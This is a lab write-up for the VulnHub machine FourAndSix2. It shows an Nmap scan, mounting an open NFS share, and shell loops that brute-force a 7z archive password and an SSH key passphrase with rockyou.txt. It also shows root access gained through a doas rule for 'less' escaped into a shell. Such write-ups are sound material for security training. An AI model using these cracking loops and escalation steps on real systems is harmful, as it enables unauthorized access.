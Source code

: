 FourAndSix2

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
[+] Mounting NFS share
[+] 7z password cracking online
[+] Cracking id_rsa password
[+] Privilege Escalation abusing SUID file
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Scan Results

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Nmap scan report for 192.168.56.106
Host is up (0.00034s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 ef:3b:2e:cf:40:19:9e:bb:23:1e:aa:24:a1:09:4e:d1 (RSA)
|   256 c8:5c:8b:0b:e1:64:0c:75:c3:63:d7:b3:80:c9:2f:d2 (ECDSA)
|_  256 61:bc:45:9a:ba:a5:47:20:60:13:25:19:b0:47:cb:ad (ED25519)
111/tcp  open  rpcbind 2 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100003  2,3         2049/tcp  nfs
|   100003  2,3         2049/udp  nfs
|   100005  1,3          782/udp  mountd
|_  100005  1,3          851/tcp  mountd
2049/tcp open  nfs     2-3 (RPC #100003)
MAC Address: 08:00:27:41:81:5A (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: OpenBSD 6.X
OS CPE: cpe:/o:openbsd:openbsd:6
OS details: OpenBSD 6.0 - 6.1
Network Distance: 1 hop

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Mount Present

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
setrus@host:~$ showmount -e 192.168.56.106
Export list for 192.168.56.106:
/home/user/storage (everyone)
setrus@host:~$ sudo mount -t nfs 192.168.56.106:/home/user/storage /mnt/462/
setrus@host:~$ ls /mnt/462
backup.7z
setrus@host:~$ 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Tha zip is password protected. John was not able to crack the password but we were able to get the zip dearchived with password :  chocolate
https://www.lostmypass.com/file-types/7z/


ZIP PASSWORD CRACKING
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

cat /usr/share/wordlists/rockyou.txt|while read line; do 7z e backup.7z -p"$line" -oout; if grep -iRl SSH; then echo $line; break;fi;done
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/fourandsix2/642.png)

We get the account to login to the server 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# cat id_rsa.pub 
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDClNemaX//nOugJPAWyQ1aDMgfAS8zrJh++hNeMGCo+TIm9UxVUNwc6vhZ8apKZHOX0Ht+MlHLYdkbwSinmCRmOkm2JbMYA5GNBG3fTNWOAbhd7dl2GPG7NUD+zhaDFyRk5gTqmuFumECDAgCxzeE8r9jBwfX73cETemexWKnGqLey0T56VypNrjvueFPmmrWCJyPcXtoLNQDbbdaWwJPhF0gKGrrWTEZo0NnU1lMAnKkiooDxLFhxOIOxRIXWtDtc61cpnnJHtKeO+9wL2q7JeUQB00KLs9/iRwV6b+kslvHaaQ4TR8IaufuJqmICuE4+v7HdsQHslmIbPKX6HANn user@fourandsix2
root@setrus:~# ssh user@192.168.56.106 -i id_rsa
Enter passphrase for key 'id_rsa': 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


There is a password for id_rsa :  123456789

id_rsa Password Cracking
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
cat /usr/share/wordlists/rockyou.txt|while read line; do if ssh-keygen -p -P "$line" -N password -f id_rsa; then echo $line; break;fi;done  
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Account user:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# ssh user@192.168.56.106 -i id_rsa
Enter passphrase for key 'id_rsa': 
Last login: Mon Oct 29 13:53:51 2018 from 192.168.1.114
OpenBSD 6.4 (GENERIC) #349: Thu Oct 11 13:25:13 MDT 2018

Welcome to OpenBSD: The proactively secure Unix-like operating system.

Please use the sendbug(1) utility to report bugs in the system.
Before reporting a bug, please try to reproduce it with the latest
version of the code.  With bug reports, please try to ensure that
enough information to reproduce the problem is enclosed, and if a
known fix for it exists, include that as well.

fourandsix2$ id
uid=1000(user) gid=1000(user) groups=1000(user), 0(wheel
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Privilege Escalation

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
fourandsix2$ find / -perm -u=s -type f 2>/dev/null 
/usr/bin/chfn
/usr/bin/chpass
/usr/bin/chsh
/usr/bin/doas
/usr/bin/lpr
/usr/bin/lprm
/usr/bin/passwd
/usr/bin/su
/usr/libexec/lockspool
/usr/libexec/ssh-keysign
/usr/sbin/authpf
/usr/sbin/authpf-noip
/usr/sbin/pppd
/usr/sbin/traceroute
/usr/sbin/traceroute6
/sbin/ping
/sbin/ping6
/sbin/shutdown


ourandsix2$ cat /etc/doas.conf                                                
permit nopass keepenv user as root cmd /usr/bin/less args /var/log/authlog
permit nopass keepenv root as root


fourandsix2$ doas /usr/bin/less /var/log/authlog
/var/log/authlog already locked, session is read-only
Press Enter to continue: 

v (to get into vi)

:!sh 

Press any key to continue [: to enter more ex commands]: 
fourandsix2# id
uid=0(root) gid=0(wheel) groups=0(wheel), 2(kmem), 3(sys), 4(tty), 5(operator), 20(staff), 31(guest)
fourandsix2# 



~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~





